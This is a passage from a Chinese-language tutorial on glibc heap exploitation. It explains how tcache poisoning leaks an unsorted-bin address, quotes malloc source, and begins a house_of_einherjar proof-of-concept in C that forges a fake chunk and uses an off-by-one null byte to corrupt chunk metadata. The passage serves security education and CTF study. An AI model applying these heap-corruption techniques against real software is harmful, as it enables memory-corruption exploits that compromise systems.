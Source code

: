 这就造成了矛盾，所以我们需要找到一种既能从 unsorted bin 中取 chunk，又不会将 chunk 放进 tcache bin 的办法。

于是就得到了上面的利用 tcache poisoning（参考章节4.14），将 counts 修改成了 `0xff`，于是在进行到下面这里时就会进入 else 分支，直接取出 chunk 并返回：

```c
#if USE_TCACHE
	      /* Fill cache first, return to user only if cache fills.
		 We may return one of these chunks later.  */
	      if (tcache_nb
		  && tcache->counts[tc_idx] < mp_.tcache_count)
		{
		  tcache_put (victim, tc_idx);
		  return_cached = 1;
		  continue;
		}
	      else
		{
#endif
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
```

于是就成功泄露出了 unsorted bin 的头部地址。

### house_of_einherjar

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    uint8_t *a, *b, *d;

    a = (uint8_t*) malloc(0x10);
    int real_a_size = malloc_usable_size(a);
    memset(a, 'A', real_a_size);
    fprintf(stderr, "We allocate 0x10 bytes for 'a': %p\n\n", a);

    size_t fake_chunk[6];
    fake_chunk[0] = 0x80;
    fake_chunk[1] = 0x80;
    fake_chunk[2] = (size_t) fake_chunk;
    fake_chunk[3] = (size_t) fake_chunk;
    fake_chunk[4] = (size_t) fake_chunk;
    fake_chunk[5] = (size_t) fake_chunk;
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size: %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n\n", fake_chunk[5]);

    b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);
    uint64_t* b_size_ptr = (uint64_t*)(b - 0x8);
    fprintf(stderr, "We allocate 0xf8 bytes for 'b': %p\n", b);
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
    a[real_a_size] = 0;
    fprintf(stderr, "b.size: %#lx\n\n", *b_size_ptr);
```